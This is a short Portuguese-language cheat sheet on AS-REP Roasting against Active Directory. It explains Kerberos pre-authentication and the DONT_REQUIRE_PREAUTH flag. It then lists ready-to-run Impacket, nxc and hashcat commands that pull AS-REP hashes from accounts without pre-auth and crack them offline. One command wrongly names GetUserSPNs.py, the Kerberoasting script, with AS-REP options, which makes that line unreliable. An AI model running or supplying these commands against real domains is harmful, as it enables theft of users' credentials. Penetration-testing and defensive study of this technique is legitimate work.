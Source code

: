 ### 1. Entendendo o que é pre-authentication

- **Pre-authentication** é uma camada de segurança no Kerberos que exige que o usuário envie um timestamp cifrado (um “pre-auth data”) antes de receber o ticket TGT.
- Se estiver **desabilitado** no usuário, ao tentar autenticar, o KDC não exigirá essa etapa, e o servidor devolverá um AS-REP com hash que pode ser atacado (AS-REP Roasting).
---

### 2. Como verificar se pre-auth está habilitado para um usuário
No Active Directory, o atributo que indica se o pre-auth está desabilitado é o:
- `UserAccountControl` com flag `DONT_REQUIRE_PREAUTH` (valor: `0x400000` decimal 4194304)
Você pode verificar isso com uma consulta LDAP, PowerShell ou com ferramentas como o **Impacket**.

#### Get hash
```sh
GetUserSPNs.py -no-pass -usersfile users.txt dominio/ -dc-ip IP_DC
# ou
impacket-GetNPUsers -no-pass -dc-ip IP_DC dominio/usuario
#ou
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

#### Crack hash
```sh
hashcat -m18200 output.txt wordlist
```